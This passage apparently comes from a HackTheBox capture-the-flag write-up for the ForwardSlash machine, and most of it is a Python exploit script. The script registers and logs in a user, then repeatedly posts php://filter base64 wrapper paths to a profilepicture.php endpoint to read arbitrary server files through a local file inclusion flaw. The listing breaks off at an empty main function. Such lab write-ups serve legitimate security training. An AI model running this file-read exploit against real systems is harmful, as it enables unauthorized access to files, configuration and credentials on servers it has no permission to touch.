 ```py
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-22-HackTheBox-ForwardSlash/2021-10-22-HackTheBox-ForwardSlash%2008:02:23.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto read LFI Server - ForwardSlash - HackTheBox

import argparse
import requests
import sys
import base64
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Base64 decode things
def b64d(s):
    return base64.b64decode(s).decode()

# First let's create the user
def createLogin():
    print("[+] Let's create an user !! [+]")
    url = "http://backup.forwardslash.htb:80/register.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "0x4rt3mis", "password": "123456", "confirm_password": "123456"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] User Created !! [+]")
    
# Just login
def loginUser():
    print("[+] Just logging ! [+]")
    url = "http://backup.forwardslash.htb:80/login.php"
    data = {"username": "0x4rt3mis", "password": "123456"}
    r.post(url, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] User Logged in !!! [+]")

def readFile():
    url = "http://backup.forwardslash.htb:80/profilepicture.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    print("[+] Just type exit to exit !!!! [+]")
    prefix = "Reading file: "
    file = ""
    while file != "exit":
        file = input(prefix)
        data = {"url": "php://filter/convert.base64-encode/resource=%s" %file}
        output = r.post(url,headers=headers,data=data,proxies=proxies)
        b64encoded = re.search('</html>\n+.*', output.text).group(0)
        if len(b64encoded) < 9:
            print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
        else:
            b64encoded = b64encoded.removeprefix("</html>\n")
            print()
            print(b64d(b64encoded)) 
            print()
    
def main():
    '''Here we call the functions'''
```